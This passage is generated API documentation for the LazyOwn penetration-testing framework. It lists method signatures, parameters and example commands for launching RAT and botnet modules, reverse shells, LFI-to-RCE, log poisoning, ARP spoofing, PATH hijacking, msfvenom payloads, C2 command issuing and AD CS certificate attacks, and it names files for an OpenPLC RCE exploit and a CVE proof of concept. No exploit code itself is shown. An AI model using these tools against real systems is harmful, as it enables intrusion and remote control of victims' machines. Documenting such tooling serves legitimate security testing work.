3. Calls the `run_script` method to execute the `lazyown_metaextract0r.py` script with the appropriate argument.

:param path: The file path to be processed by the script.
:type path: str

:returns: None

Manual execution:
1. Ensure that `path` is assign in `self.params`.
2. The script `modules/lazyown_metaextract0r.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/lazyown_metaextract0r.py --path <path>`

Example:
    To run `lazyown_metaextract0r` with `path` assign to `/home/user/file.txt`, set:
    `self.params["path"] = "/home/user/file.txt"`
    Then call:
    `run_lazymetaextract0r()`

Note:
    - Ensure that `modules/lazyown_metaextract0r.py` has the appropriate permissions and dependencies to run.*
- `run_lazyownratcli` (line 3269) `def run_lazyownratcli(self)` - *Run the internal module located at `modules/lazyownclient.py` with the specified parameters.

This function executes the script with the following arguments:

- `lhost`: The IP address of the local host, specified in `self.params`.
- `lport`: The port number of the local host, specified in `self.params`.
- `rat_key`: The RAT key, specified in `self.params`.

The function performs the following steps:

1. Retrieves the values for `lhost`, `lport`, and `rat_key` from `self.params`.
2. Checks if all required parameters (`lhost`, `lport`, and `rat_key`) are set. If any are missing, it prints an error message and returns.
3. Calls the `run_script` method to execute the `lazyownclient.py` script with the appropriate arguments.

:param lhost: The IP address of the local host.
:type lhost: str
:param lport: The port number of the local host.
:type lport: int
:param rat_key: The RAT key.
:type rat_key: str

:returns: None

Manual execution:
1. Ensure that `lhost`, `lport`, and `rat_key` are assign in `self.params`.
2. The script `modules/lazyownclient.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/lazyownclient.py --host <lhost> --port <lport> --key <rat_key>`

Example:
    To run `lazyownclient` with `lhost` assign to `192.168.1.10`, `lport` assign to `8080`, and `rat_key` assign to `my_secret_key`, set:
    `self.params["lhost"] = "192.168.1.10"`
    `self.params["lport"] = 8080`
    `self.params["rat_key"] = "my_secret_key"`
    Then call:
    `run_lazyownratcli()`

Note:
    - Ensure that `modules/lazyownclient.py` has the appropriate permissions and dependencies to run.*
- `run_lazyownrat` (line 3329) `def run_lazyownrat(self)` - *Run the internal module located at `modules/lazyownserver.py` with the specified parameters.

This function executes the script with the following arguments:

- `rhost`: The IP address of the remote host, specified in `self.params`.
- `rport`: The port number of the remote host, specified in `self.params`.
- `rat_key`: The RAT key, specified in `self.params`.

The function performs the following steps:

1. Retrieves the values for `rhost`, `rport`, and `rat_key` from `self.params`.
2. Checks if all required parameters (`rhost`, `rport`, and `rat_key`) are set. If any are missing, it prints an error message and returns.
3. Calls the `run_script` method to execute the `lazyownserver.py` script with the appropriate arguments.

:param rhost: The IP address of the remote host.
:type rhost: str
:param rport: The port number of the remote host.
:type rport: int
:param rat_key: The RAT key.
:type rat_key: str

:returns: None

Manual execution:
1. Ensure that `rhost`, `rport`, and `rat_key` are assign in `self.params`.
2. The script `modules/lazyownserver.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/lazyownserver.py --host <rhost> --port <rport> --key <rat_key>`

Example:
    To run `lazyownserver` with `rhost` set to `192.168.1.10`, `rport` assign to `8080`, and `rat_key` assign to `my_secret_key`, set:
    `self.params["rhost"] = "192.168.1.10"`
    `self.params["rport"] = 8080`
    `self.params["rat_key"] = "my_secret_key"`
    Then call:
    `run_lazyownrat()`

Note:
    - Ensure that `modules/lazyownserver.py` has the appropriate permissions and dependencies to run.*
- `run_lazybotnet` (line 3390) `def run_lazybotnet(self)` - *Run the internal module located at `modules/legacy/lazybotnet.py` with the specified parameters.

This function executes the script with the following arguments:

- `rhost`: The IP address of the remote host, hardcoded to "0.0.0.0".
- `rport`: The port number of the remote host, specified in `self.params`.
- `rat_key`: The RAT key, specified in `self.params`.

The function performs the following steps:

1. Retrieves the values for `rport` and `rat_key` from `self.params`. The `rhost` is hardcoded to "0.0.0.0".
2. Checks if all required parameters (`rport` and `rat_key`) are set. If any are missing, it prints an error message and returns.
3. Calls the `run_script` method to execute the `lazybotnet.py` script with the appropriate arguments.

:param rport: The port number of the remote host.
:type rport: int
:param rat_key: The RAT key.
:type rat_key: str

:returns: None

Manual execution:
1. Ensure that `rport` and `rat_key` are assign in `self.params`.
2. The script `modules/legacy/lazybotnet.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/legacy/lazybotnet.py --host <rhost> --port <rport> --key <rat_key>`

Example:
    To run `lazybotnet` with `rport` assign to `1234` and `rat_key` assign to `my_key`, assign:
    `self.params["rport"] = 1234`
    `self.params["rat_key"] = "my_key"`
    Then call:
    `run_lazybotnet()`

Note:
    - Ensure that `modules/legacy/lazybotnet.py` has the appropriate permissions and dependencies to run.*
- `run_lazylfi2rce` (line 3446) `def run_lazylfi2rce(self)` - *Run the internal module located at `modules/legacy/lazylfi2rce.py` with the specified parameters.

This function executes the script with the following arguments:

- `rhost`: The IP address of the remote host, specified in `self.params`.
- `rport`: The port number of the remote host, specified in `self.params`.
- `lhost`: The IP address of the local host, specified in `self.params`.
- `lport`: The port number of the local host, specified in `self.params`.
- `field`: The field name for the LFI (Local File Inclusion) attack, specified in `self.params`.
- `wordlist`: The path to the wordlist file used for the attack, specified in `self.params`.

The function performs the following steps:

1. Retrieves the values for `rhost`, `rport`, `lhost`, `lport`, `field`, and `wordlist` from `self.params`.
2. Checks if all required parameters are set. If any are missing, it prints an error message and returns.
3. Calls the `run_script` method to execute the `lazylfi2rce.py` script with the appropriate arguments.

:param rhost: The IP address of the remote host.
:type rhost: str
:param rport: The port number of the remote host.
:type rport: int
:param lhost: The IP address of the local host.
:type lhost: str
:param lport: The port number of the local host.
:type lport: int
:param field: The field name for the LFI attack.
:type field: str
:param wordlist: The path to the wordlist file.
:type wordlist: str

:returns: None

Manual execution:
1. Ensure that `rhost`, `rport`, `lhost`, `lport`, `field`, and `wordlist` are assign in `self.params`.
2. The script `modules/legacy/lazylfi2rce.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/legacy/lazylfi2rce.py --rhost <rhost> --rport <rport> --lhost <lhost> --lport <lport> --field <field> --wordlist <wordlist>`

Example:
    To run the lazylfi2rce with `rhost` assign to `192.168.1.1`, `rport` assign to `80`, `lhost` assign to `192.168.1.2`, `lport` assign to `8080`, `field` assign to `file`, and `wordlist` assign to `path/to/wordlist.txt`, set:
    `self.params["rhost"] = "192.168.1.1"`
    `self.params["rport"] = 80`
    `self.params["lhost"] = "192.168.1.2"`
    `self.params["lport"] = 8080`
    `self.params["field"] = "file"`
    `self.params["wordlist"] = "path/to/wordlist.txt"`
    Then call:
    `run_lazylfi2rce()`

Note:
    - Ensure that `modules/legacy/lazylfi2rce.py` has the appropriate permissions and dependencies to run.*
- `run_lazylogpoisoning` (line 3527) `def run_lazylogpoisoning(self)` - *Run the internal module located at `modules/legacy/lazylogpoisoning.py` with the specified parameters.

This function executes the script with the following arguments:

- `rhost`: The IP address of the remote host, specified in `self.params`.
- `lhost`: The IP address of the local host, specified in `self.params`.

The function performs the following steps:

1. Retrieves the values for `rhost` and `lhost` from `self.params`.
2. Checks if the required parameters `rhost` and `lhost` are assign. If not, it prints an error message and returns.
3. Calls the `run_script` method to execute the `lazylogpoisoning.py` script with the appropriate arguments.

:param rhost: The IP address of the remote host. Must be assign in `self.params`.
:type rhost: str
:param lhost: The IP address of the local host. Must be assign in `self.params`.
:type lhost: str

:returns: None

Manual execution:
1. Ensure that `rhost` and `lhost` are assign in `self.params`.
2. The script `modules/legacy/lazylogpoisoning.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/legacy/lazylogpoisoning.py --rhost <rhost> --lhost <lhost>`

Example:
    To run the lazylogpoisoning with `rhost` assign to `192.168.1.1` and `lhost` assign to `192.168.1.2`, set:
    `self.params["rhost"] = "192.168.1.1"`
    `self.params["lhost"] = "192.168.1.2"`
    Then call:
    `run_lazylogpoisoning()`

Note:
    - Ensure that `modules/legacy/lazylogpoisoning.py` has the appropriate permissions and dependencies to run.*
- `run_lazybotcli` (line 3574) `def run_lazybotcli(self)` - *Run the internal module located at `modules/legacy/lazybotcli.py` with the specified parameters.

This function executes the script with the following arguments:

- `rhost`: The IP address of the remote host (default is `"0.0.0.0"`).
- `rport`: The port number to be used, specified in `self.params`.
- `rat_key`: The key for the Remote Access Tool (RAT), specified in `self.params`.

The function performs the following steps:

1. Retrieves the values for `rport` and `rat_key` from `self.params`.
2. Checks if the required parameters `rport` and `rat_key` are assign. If not, it prints an error message and returns.
3. Calls the `run_script` method to execute the `lazybotcli.py` script with the appropriate arguments.

:param rport: The port number for the connection. Must be assign in `self.params`.
:type rport: int
:param rat_key: The key for the RAT. Must be assign in `self.params`.
:type rat_key: str

:returns: None

Manual execution:
1. Ensure that `rport` and `rat_key` are assign in `self.params`.
2. The script `modules/legacy/lazybotcli.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/legacy/lazybotcli.py --host 0.0.0.0 --port <rport> --key <rat_key>`

Example:
    To run the lazybotcli with port `12345` and key `mysecretkey`, set:
    `self.params["rport"] = 12345`
    `self.params["rat_key"] = "mysecretkey"`
    Then call:
    `run_lazybotcli()`

Note:
    - Ensure that `modules/legacy/lazybotcli.py` has the appropriate permissions and dependencies to run.*
- `run_lazyssh77enum` (line 3630) `def run_lazyssh77enum(self)` - *Run the internal module located at `modules/lazybrutesshuserenum.py` with the specified parameters. ONLY valid for 7.x Version !!!

The script will be executed with the following arguments:

- `wordlist`: The path to the wordlist file containing potential usernames for SSH enumeration.
- `rhost`: The target IP address or hostname for SSH enumeration.

The function performs the following steps:

1. Retrieves the values for `wordlist` and `rhost` from `self.params`.
2. Prints a warning message about the potential inaccuracy of the results.
3. Constructs the command to run the `lazybrutesshuserenum.sh` script with the specified arguments.
4. Executes the command using the `os.system` method.

:param wordlist: The path to the wordlist file for username enumeration. Must be assign in `self.params`.
:type wordlist: str
:param rhost: The target IP address or hostname for SSH enumeration. Must be assign in `self.params`.
:type rhost: str

:returns: None

Manual execution:
1. Ensure that `wordlist` and `rhost` are assign in `self.params`.
2. Run the script `modules/lazybrutesshuserenum.sh` with the appropriate arguments.

Dependencies:
- `modules/lazybrutesshuserenum.sh` must be present in the `modules` directory and must be executable.

Example:
    To run the SSH user enumeration with a wordlist located at `/path/to/wordlist.txt` and target IP `192.168.1.1`, set:
    `self.params["usrwordlist"] = "/path/to/wordlist.txt"`
    `self.params["rhost"] = "192.168.1.1"`
    Then call:
    `run_lazyssh77enum()`

Note:
    - The accuracy of the results may vary depending on the version of the script and the wordlist used.*
- `run_lazyburpfuzzer` (line 3680) `def run_lazyburpfuzzer(self)` - *Run the internal module located at `modules/lazyown_burpfuzzer.py` with the specified parameters.

The script will be executed with the following arguments:

- `--url`: The target URL for the fuzzer.
- `--method`: The HTTP method to use (e.g., GET, POST).
- `--proxy_port`: The port for the proxy server.
- `--headers`: Optional HTTP headers to include in the request.
- `--data`: Optional data to include in the request body.
- `--params`: Optional URL parameters to include in the request.
- `--json_data`: Optional JSON data to include in the request body.
- `-w`: Optional wordlist for fuzzing.
- `-hc`: Optional hide code for fuzzing.

The function performs the following steps:

1. Retrieves the values for `url`, `method`, `headers`, `params`, `data`, `json_data`, `proxy_port`, `wordlist`, and `hide_code` from `self.params`.
2. Constructs the command to run the `lazyown_burpfuzzer.py` script with the specified arguments.
3. Adds optional parameters based on whether the corresponding files (`headers_file`, `data_file`, `params_file`, `json_data_file`) are provided.
4. Executes the command using the `run_command` method.

:param url: The target URL for the fuzzer. Must be assign in `self.params`.
:type url: str
:param method: The HTTP method to use. Must be assign in `self.params`.
:type method: str
:param headers: Optional HTTP headers. Must be assign in `self.params` or provided via `headers_file`.
:type headers: str
:param params: Optional URL parameters. Must be assign in `self.params` or provided via `params_file`.
:type params: str
:param data: Optional data for the request body. Must be assign in `self.params` or provided via `data_file`.
:type data: str
:param json_data: Optional JSON data for the request body. Must be assign in `self.params` or provided via `json_data_file`.
:type json_data: str
:param proxy_port: The port for the proxy server. Must be assign in `self.params`.
:type proxy_port: int
:param wordlist: Optional wordlist for fuzzing. Must be assign in `self.params`.
:type wordlist: str
:param hide_code: Optional code to hide. Must be assign in `self.params`.
:type hide_code: int
:param headers_file: Optional file containing headers.
:type headers_file: str, optional
:param data_file: Optional file containing data.
:type data_file: str, optional
:param params_file: Optional file containing parameters.
:type params_file: str, optional
:param json_data_file: Optional file containing JSON data.
:type json_data_file: str, optional

:returns: None

Manual execution:
1. Ensure that `url`, `method`, and `proxy_port` are assign in `self.params`.
2. Provide additional parameters as needed.
3. Run the script `modules/lazyown_burpfuzzer.py` with the appropriate arguments.

Dependencies:
- `modules/lazyown_burpfuzzer.py` must be present in the `modules` directory and must be executable.

Example:
    To run the fuzzer with URL `http://example.com`, HTTP method `POST`, and proxy port `8080`, set:
    `self.params["url"] = "http://example.com"`
    `self.params["method"] = "POST"`
    `self.params["proxy_port"] = 8080`
    Then call:
    `run_lazyburpfuzzer()`

Note:
    - Ensure that all required parameters are assign before calling this function.
    - Parameters can also be provided via corresponding files.*
- `run_lazyreverse_shell` (line 3806) `def run_lazyreverse_shell(self)` - *Run the internal module located at `modules/lazyreverse_shell.sh` with the specified parameters.

The script will be executed with the following arguments:
- `--ip`: The IP address to use for the reverse shell.
- `--puerto`: The port to use for the reverse shell.

The function performs the following steps:

1. Retrieves the values for `rhost` (IP address) and `reverse_shell_port` (port) from `self.params`.
2. Validates that `rhost` and `reverse_shell_port` parameters are assign.
3. Constructs the command to run the `lazyreverse_shell.sh` script with the specified arguments.
4. Executes the command.

:param ip: The IP address to use for the reverse shell. Must be assign in `self.params`.
:type ip: str
:param port: The port to use for the reverse shell. Must be assign in `self.params`.
:type port: str

:returns: None

Manual execution:
1. Ensure that `rhost` and `reverse_shell_port` are assign in `self.params`.
2. Run the script `modules/lazyreverse_shell.sh` with the appropriate arguments.

Dependencies:
- `modules/lazyreverse_shell.sh` must be present in the `modules` directory and must be executable.

Example:
    To assign up a reverse shell with IP `192.168.1.100` and port `4444`, assign:
    `self.params["rhost"] = "192.168.1.100"`
    `self.params["reverse_shell_port"] = "4444"`
    Then call:
    `run_lazyreverse_shell()`

Note:
    - Ensure that `modules/lazyreverse_shell.sh` has the necessary permissions to execute.
    - Parameters must be assign before calling this function.*
- `run_lazyarpspoofing` (line 3856) `def run_lazyarpspoofing(self)` - *Run the internal module located at `modules/legacy/lazyarpspoofing.py` with the specified parameters.

The script will be executed with the following arguments:
- `--device`: The network interface to use for ARP spoofing.
- `lhost`: The local host IP address to spoof.
- `rhost`: The remote host IP address to spoof.

The function performs the following steps:

1. Retrieves the values for `lhost`, `rhost`, and `device` from `self.params`.
2. Validates that `lhost`, `rhost`, and `device` parameters are assign.
3. Constructs the command to run the `lazyarpspoofing.py` script with the specified arguments.
4. Executes the command.

:param lhost: The local host IP address to spoof. Must be assign in `self.params`.
:type lhost: str
:param rhost: The remote host IP address to spoof. Must be assign in `self.params`.
:type rhost: str
:param device: The network interface to use for ARP spoofing. Must be assign in `self.params`.
:type device: str

:returns: None

Manual execution:
1. Ensure that `lhost`, `rhost`, and `device` are assign in `self.params`.
2. Run the script `modules/legacy/lazyarpspoofing.py` with the appropriate arguments.

Dependencies:
- `modules/legacy/lazyarpspoofing.py` must be present in the `modules` directory and must be executable.

Example:
    To execute ARP spoofing with local host `192.168.1.2`, remote host `192.168.1.1`, and device `eth0`, set:
    `self.params["lhost"] = "192.168.1.2"`
    `self.params["rhost"] = "192.168.1.1"`
    `self.params["device"] = "eth0"`
    Then call:
    `run_lazyarpspoofing()`

Note:
    - Ensure that `modules/legacy/lazyarpspoofing.py` has the necessary permissions to execute.
    - Parameters must be assign before calling this function.*
- `run_lazyattack` (line 3910) `def run_lazyattack(self)` - *Run the internal module located at `modules/lazyatack.sh` with the specified parameters.

The script will be executed with the following arguments:
- `--modo`: The mode of the attack.
- `--ip`: The target IP address.
- `--atacante`: The attacker IP address.

The function performs the following steps:

1. Retrieves the current working directory.
2. Validates that `mode`, `rhost`, and `lhost` parameters are assign.
3. Constructs the command to run the `lazyatack.sh` script with the specified arguments.
4. Executes the command.

:param mode: The mode in which the attack should be run. Must be assign in `self.params`.
:type mode: str
:param target_ip: The IP address of the target. Must be assign in `self.params`.
:type target_ip: str
:param attacker_ip: The IP address of the attacker. Must be assign in `self.params`.
:type attacker_ip: str

:returns: None

Manual execution:
1. Ensure that `mode`, `rhost`, and `lhost` are assign in `self.params`.
2. Run the script `modules/lazyatack.sh` with the appropriate arguments.

Dependencies:
- `modules/lazyatack.sh` must be present in the `modules` directory and must be executable.

Example:
    To execute the attack with mode `scan`, target IP `192.168.1.100`, and attacker IP `192.168.1.1`, assign:
    `self.params["mode"] = "scan"`
    `self.params["rhost"] = "192.168.1.100"`
    `self.params["lhost"] = "192.168.1.1"`
    Then call:
    `run_lazyattack()`

Note:
    - Ensure that `modules/lazyatack.sh` has the necessary permissions to execute.
    - Parameters must be assign before calling this function.*
- `run_lazymsfvenom` (line 3965) `def run_lazymsfvenom(self)` - *Executes the `msfvenom` tool to generate a variety of payloads based on user input.

This function prompts the user to select a payload type from a predefined list and runs the corresponding
`msfvenom` command to create the desired payload. It handles tasks such as generating different types of
payloads for Linux, Windows, macOS, and Android systems, including optional encoding with Shikata Ga Nai for C payloads.

The generated payloads are moved to a `sessions` directory, where appropriate permissions are assign. Additionally,
the payloads can be compressed using UPX for space efficiency. If the selected payload is an Android APK,
the function will also sign the APK and perform necessary post-processing steps.

:param line: Command line arguments for the script.
:return: None*
- `run_lazyaslrcheck` (line 4142) `def run_lazyaslrcheck(self)` - *Creates a path hijacking attack by performing the following steps:

1. Appends the value of `binary_name` to a temporary script located at `modules/tmp.sh`.
2. Copies this temporary script to `/tmp` with the name specified by `binary_name`.
3. Sets executable permissions on the copied script.
4. Prepends `/tmp` to the system's PATH environment variable to ensure the script is executed in preference to other binaries.

The function then prints out each command being executed and a message indicating the binary name used for the path hijacking.

:param binary_name: The name of the binary to be used in the path hijacking attack. It should be assign in `self.params` before calling this method.
:type binary_name: str

:returns: None

Manual execution:
1. Ensure that `binary_name` is assign in `self.params`.
2. Append the binary name to `modules/tmp.sh`.
3. Copy `modules/tmp.sh` to `/tmp/{binary_name}`.
4. assign executable permissions on the copied file.
5. Update the PATH environment variable to prioritize `/tmp`.

Dependencies:
- The `self.params` dictionary must contain a valid `binary_name`.
- Ensure that `modules/tmp.sh` exists and contains appropriate content for the attack.

Example:
    To execute the path hijacking attack with `binary_name` as `malicious`, ensure `self.params["binary_name"]` is assign to `"malicious"`, and then call:
    `run_lazypathhijacking()`

Note:
    - The `binary_name` parameter must be a string representing the name of the binary to hijack.
    - The method modifies the PATH environment variable, which may affect the execution of other binaries.*
- `run_lazypathhijacking` (line 4189) `def run_lazypathhijacking(self)` - *Creates a path hijacking attack by performing the following steps:

1. Appends the value of `binary_name` to a temporary script located at `modules/tmp.sh`.
2. Copies this temporary script to `/tmp` with the name specified by `binary_name`.
3. Sets executable permissions on the copied script.
4. Prepends `/tmp` to the system's PATH environment variable to ensure the script is executed in preference to other binaries.

The function then prints out each command being executed and a message indicating the binary name used for the path hijacking.

:param binary_name: The name of the binary to be used in the path hijacking attack.
:returns: None*
- `run_script` (line 4222) `def run_script(self, script_name)` - *Run a script with the given arguments

This method constructs and executes a command to run a Python script with the specified arguments. It uses the `run_command` method to execute the script and handle real-time output.

:param script_name: The name of the script to be executed.
:type script_name: str
:param args: The arguments to be passed to the script.
:type args: tuple of str

:returns: None

Manual execution:
1. Build the command list with "python3", the script name, and the arguments.
2. Call `run_command` with the constructed command list.

Dependencies:
- `run_command` method for executing the constructed command and streaming output.

Example:
    To execute a script named `example.py` with arguments `arg1` and `arg2`, call:
    `run_script("example.py", "arg1", "arg2")`

Note:
    - The `script_name` parameter should be a string representing the name of the script.
    - The `args` parameter is a variable-length argument list containing the arguments to be passed to the script.
    - Ensure that the script and arguments are properly specified.*
- `run_command` (line 4254) `def run_command(self, command)` - *Run a command and print output in real-time

This method executes a given command using `subprocess.Popen` and streams both the standard output and standard error to the console in real-time. The output from both streams is appended to the `self.output` attribute. If interrupted, the process is terminated gracefully.

:param command: The command to be executed.
:type command: str

:returns: None

Manual execution:
1. Execute the command specified by the `command` parameter.
2. Stream and print the command's standard output and error to the console in real-time.
3. Append all output to the `self.output` attribute.
4. Handle `KeyboardInterrupt` by terminating the process and printing an error message.

Dependencies:
- `subprocess` module for running the command and capturing output.
- `print_msg` function for printing output to the console.
- `print_error` function for printing error messages to the console.

Example:
    To execute a command, call `run_command("ls -l")`.

Note:
    - The `command` parameter should be a string representing the command to be executed.
    - `self.output` must be initialized before calling this method.
    - Ensure proper exception handling to manage process interruptions.*
- `_render_chain_next` (line 4301) `def _render_chain_next(self, raw_args)` - *Render the chain's ``next`` view for the supplied verb (helper).

Args:
    raw_args: The raw argument string passed to ``do_next``.
        Format: ``<verb> [limit]``.

Returns:
    None.*
- `get_output` (line 4334) `def get_output(self)` - *Devuelve la salida acumulada*
- `upload_file_to_c2` (line 4339) `def upload_file_to_c2(self, file_path, clientid)` - *Sube un archivo al C2.

Parameters:
file_path (str): Ruta del archivo a subir.

Returns:
None*
- `complete_upload_c2` (line 4365) `def complete_upload_c2(self, text, line, begidx, endidx)` - *Autocomplete implant names from implant_config_*.json files in sessions/ directory*
- `download_file_from_c2` (line 4393) `def download_file_from_c2(self, file_name, clientid)` - *Descarga un archivo desde el C2.

Parameters:
file_name (str): Nombre del archivo a descargar.
clientid (str): Identificador del cliente (opcional).

Returns:
None*
- `_sync_c2_credentials` (line 4422) `def _sync_c2_credentials(self)` - *Sync CLI credentials with C2 auto-generated credentials if available.

Reads .c2_credentials.txt and updates self.c2_auth + payload.json
when the C2 has generated stronger credentials than the defaults.*
- `issue_command_to_c2` (line 4454) `def issue_command_to_c2(self, command, client_id)` - *Ejecuta un comando en el cliente usando el C2.

Parameters:
command (str): Comando a ejecutar.
client_id (str): ID del cliente (opcional).

Returns:
None*
- `complete_issue_command_to_c2` (line 4485) `def complete_issue_command_to_c2(self, text, line, begidx, endidx)` - *Autocomplete: 1st arg = implant name, 2nd arg = beacon command (with : if needed)*
- `view_code` (line 4551) `def view_code(self, stdscr)` - *Display C and ASM code side by side in a curses-based interface.

This function sets up a curses window to display C code and its corresponding
assembly code side by side. It allows the user to select a .c file from the
'sessions' directory and then displays the code with scrolling capabilities
both vertically and horizontally. A green vertical line separates the C code
from the ASM code.

Parameters:
    stdscr (curses.window): The curses window object to draw on.

Returns:
    None*
- `get_available_actions` (line 4656) `def get_available_actions(self)` - *Returns a list of available actions using cmd2 introspection.*
- `_create_strict_yaml_prompt` (line 4662) `def _create_strict_yaml_prompt(self, base_prompt, nmap_services, knowledge_base)` - *Create a prompt that strictly enforces YAML response format without any narrative text*
- `process_scan_csv` (line 4739) `def process_scan_csv(self, csv_file, ip, port, all_data, processed_ips)` - *Processes a single scan CSV file.*
- `process_vuln_csv` (line 4762) `def process_vuln_csv(self, csv_file, ip, all_data, processed_ips)` - *Processes a single vulnerability CSV file.*
- `_load_adversaries` (line 4821) `def _load_adversaries(self)`
- `_parse_adversary_args` (line 4835) `def _parse_adversary_args(self, line)`
- `_patch_template_if_needed` (line 4844) `def _patch_template_if_needed(self, adversary, path, replacements)`
- `_build_command_stack` (line 4854) `def _build_command_stack(self, adversary, r)`
- `_display_adversary_info` (line 4868) `def _display_adversary_info(self, adversary, commands)`
- `_execute_commands` (line 4875) `def _execute_commands(self, confirm, remote_cmds)`
- `do_event_log` (line 4894) `def do_event_log(self, line)` - *Show recent EventBus events. Usage: event_log [N] [category]*
- `do_state_snapshot` (line 4924) `def do_state_snapshot(self, line)` - *Show unified StateManager snapshot (DB + JSON caches).*
- `do_route` (line 4963) `def do_route(self, line)` - *Route a natural-language prompt to a LazyOwn tool. Usage: route <prompt>*

#### `49803.py`
**Path:** `modules/49803.py`
**File Doc:** *Exploit Title: OpenPLC 3 - Remote Code Execution (Authenticated) Date: 25/04/2021 Exploit Author: Fellipe Oliveira Vendor Homepage: https://www.openplcproject.com/ Software Link: https://github.com/thiagoralves/OpenPLC_v3 Version: OpenPLC v3 Tested on: Ubuntu 16.04,Debian 9,Debian 10 Buster  /usr/bin/python3*

**Functions:**
- `auth` (line 43) `def auth()`
- `injection` (line 69) `def injection()`
- `connection` (line 106) `def connection()`

#### `CVE-2023-28432.py`
**Path:** `modules/CVE-2023-28432.py`

**Functions:**
- `poc` (line 12) `def poc(url)`

#### `LazyOwnExplorer.py`
**Path:** `modules/LazyOwnExplorer.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Gui to search in gtfobins db  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Classes:**
- `AutocompleteEntry` (line 30) `class AutocompleteEntry(Entry)`
- `LazyOwnGUI` (line 104) `class LazyOwnGUI(Tk)`

**Functions:**
- `get_suggestions` (line 124) `def get_suggestions(term)`
- `save_new_vector` (line 325) `def save_new_vector()`
- `is_binary` (line 358) `def is_binary(file_path)`

**Methods:**
- `__init__` (line 31) `def __init__(self, get_suggestions_func)`
- `changed` (line 45) `def changed(self, name, index, mode)`
- `selection` (line 68) `def selection(self, event)`
- `move_up` (line 75) `def move_up(self, event)`
- `move_down` (line 87) `def move_down(self, event)`
- `comparison` (line 99) `def comparison(self, pattern)`
- `__init__` (line 105) `def __init__(self)`
- `create_widgets` (line 119) `def create_widgets(self)`
- `load_parquet_files` (line 181) `def load_parquet_files(self)`
- `get_unique_values` (line 241) `def get_unique_values(self)`
- `search` (line 248) `def search(self)`
- `search_in_parquet` (line 267) `def search_in_parquet(self, term)`
- `on_row_double_click` (line 278) `def on_row_double_click(self, event)`
- `show_row_details` (line 283) `def show_row_details(self, row)`
- `add_new_attack_vector` (line 305) `def add_new_attack_vector(self)`
- `scan_system_for_binaries` (line 357) `def scan_system_for_binaries(self)`
- `show_scan_results` (line 374) `def show_scan_results(self, binaries)`
- `export_to_csv` (line 385) `def export_to_csv(self)`

#### `__init__.py`
**Path:** `modules/__init__.py`

*No symbols extracted*

#### `adcs_attacks.py`
**Path:** `modules/adcs_attacks.py`
**File Doc:** *Active Directory Certificate Services (AD CS) attack module.  Implements ESC1 through ESC8 attack techniques for privilege escalation via certificate templates and AD CS misconfigurations.*

**Classes:**
- `CertificateTemplate` (line 14) `class CertificateTemplate` - *Represents a vulnerable AD CS certificate template.*
- `ADCSCertipyWrapper` (line 69) `class ADCSCertipyWrapper` - *High-level wrapper around Certipy for AD CS attacks.

Provides simplified interfaces for certificate template enumeration,
exploitation, and the full ESC1-ESC8 attack chain.

Args:
    certipy_path: Path to certipy executable. Auto-detects if None.
    timeout: Default timeout for subprocess calls in seconds.*

**Methods:**
- `esc_vulnerabilities` (line 35) `def esc_vulnerabilities(self)` - *Determine which ESC attack paths apply to this template.

Returns:
    List of ESC attack identifiers (ESC1-ESC8).*
- `__init__` (line 80) `def __init__(self, certipy_path, timeout)`
- `_find_certipy` (line 85) `def _find_certipy()` - *Locate the certipy executable or Python module.*
- `_run` (line 93) `def _run(self, args, capture)` - *Execute a certipy command and return exit code, stdout, stderr.

Args:
    args: Command arguments.
    capture: Whether to capture output.

Returns:
    Tuple of (exit_code, stdout, stderr).*
- `find_certificate_authorities` (line 113) `def find_certificate_authorities(self, username, password, domain, dc_ip, hashes)` - *Enumerate certificate authorities in an Active Directory domain.

Args:
    username: Domain username for authentication.
    password: Domain password for authentication.
    domain: FQDN of the domain.
    dc_ip: Domain controller IP address.
    hashes: Optional NTLM hashes for pass-the-hash.

Returns:
    List of CA dictionaries with name, dns_hostname, and ca_type.*
- `_parse_ca_output` (line 157) `def _parse_ca_output(output)` - *Parse certipy find output for certificate authorities.*
- `enumerate_templates` (line 189) `def enumerate_templates(self, username, password, domain, dc_ip, hashes)` - *Enumerate vulnerable certificate templates.

Args:
    username: Domain username.
    password: Domain password.
    domain: Domain FQDN.
    dc_ip: Domain controller IP.
    hashes: Optional NTLM hashes.

Returns:
    List of CertificateTemplate objects.*
- `_parse_template_output` (line 232) `def _parse_template_output(self, output)` - *Parse certipy JSON output into CertificateTemplate objects.*
- `request_certificate_esc1` (line 268) `def request_certificate_esc1(self, username, password, domain, dc_ip, ca_name, template_name, target_user, output_file)` - *ESC1: Request a certificate with a user-supplied subject alternative name.

Exploits certificate templates where:
- Enrollee can supply a subject alternative name (SAN)
- Template has Client Authentication EKU
- No manager approval required

Args:
    username: Authenticated user.
    password: Authenticated user's password.
    domain: Domain FQDN.
    dc_ip: Domain controller IP.
    ca_name: Target certificate authority name.
    template_name: Vulnerable template name.
    target_user: User to impersonate (e.g., 'Administrator').
    output_file: Path to save the .pfx certificate.

Returns:
    bool: True if certificate was successfully requested.*
- `request_certificate_esc8` (line 322) `def request_certificate_esc8(self, username, password, domain, dc_ip, ca_server, template_name, output_file)` - *ESC8: HTTP-based certificate enrollment (NTLM relay to AD CS).

Args:
    username: Authenticated user.
    password: Authenticated user's password.
    domain: Domain FQDN.
    dc_ip: Domain controller IP.
    ca_server: CA server hostname.
    template_name: Template to request.
    output_file: Output .pfx path.

Returns:
    bool: True if successful.*
